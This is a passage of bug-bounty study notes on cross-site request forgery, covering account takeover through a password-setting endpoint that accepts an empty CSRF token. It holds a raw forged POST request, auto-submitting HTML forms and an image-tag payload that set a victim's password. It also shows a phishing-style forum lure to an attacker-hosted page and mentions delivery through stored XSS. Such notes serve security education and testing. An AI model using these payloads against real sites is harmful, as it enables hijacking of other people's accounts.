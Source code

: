 ```HTTP
```
- This request will change the user’s account nickname and store the XSS payload there. 
- The next time a user logs into the account and views their dashboard, they’ll trigger the XSS.

# Take Over User Accounts by Using CSRF
- For example, let’s say that in addition to signing up by using an email address and password, example.com also allows users to sign up via their social media accounts. 
- If a user chooses this option, they’re not required to create a password, as they can simply log in via their linked account. 
- But to give users another option, those who’ve signed up via social media can set a new password.
- Since the user signed up via their social media account, they don’t need to provide an old password to set the new password, so if CSRF protection fails on this endpoint, an attacker would have the ability to set a password for anyone who signed up via their social media account and hasn’t yet done so.
- Let’s say the application doesn’t validate the CSRF token properly and accepts an empty value. 
- The following request will set a password for anyone who doesn’t already have one set:
```
POST /set_password
Host: example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE;
(POST request body)
password=XXXXX&csrf_token=
```
- Now all an attacker has to do is to post a link to this HTML page on pages frequented by users of the site, and they can automatically assign the password of any user who visits the malicious page:
```
<html>
 <form method="POST" action="https://email.example.com/set_password" id="csrf-form">
 <input type="text" name="new_password" value="this_account_is_now_mine">
 <input type="text" name="csrf_token" value="">
 <input type='submit' value="Submit">
 </form>
 <script>document.getElementById("csrf-form").submit();</script>
</html>
```
# Delivering the CSRF Payload
- Quite often in bug bounty reports, you’ll need to show companies that attackers can reliably deliver a CSRF payload. 
- What options do attackers have to do so?
- The first and simplest option of delivering a CSRF payload is to trick users into visiting an external malicious site. 
- For example, let’s say example.comhas a forum that users frequent. 
- In this case, attackers can post a link like this on the forum to encourage users to visit their page:
Visit this page to get a discount on your example.com subscription: https://example.attacker.com
- And on example.attacker.com, the attacker can host an auto-submitting form to execute the CSRF:
```
<html>
 <form method="POST" action="https://email.example.com/set_password" id="csrf-form">
 <input type="text" name="new_password" value="this_account_is_now_mine">
 <input type='submit' value="Submit">
 </form>
 <script>document.getElementById("csrf-form").submit();</script>
</html>
```
- For CSRFs that you could execute via a GET request, attackers can often embed the request as an image directly—for example, as an image posted to a forum. 
This way, any user who views the forum page would be affected:
```<img src="https://email.example.com/set_password?new_password=this_account_is_now_mine">```
- Finally, attackers can deliver a CSRF payload to a large audience by exploiting stored XSS. 
- If the forum comment field suffers from this vulnerability, an attacker can submit a stored-XSS payload there to make any forum visitor execute the attacker’s malicious script. 
```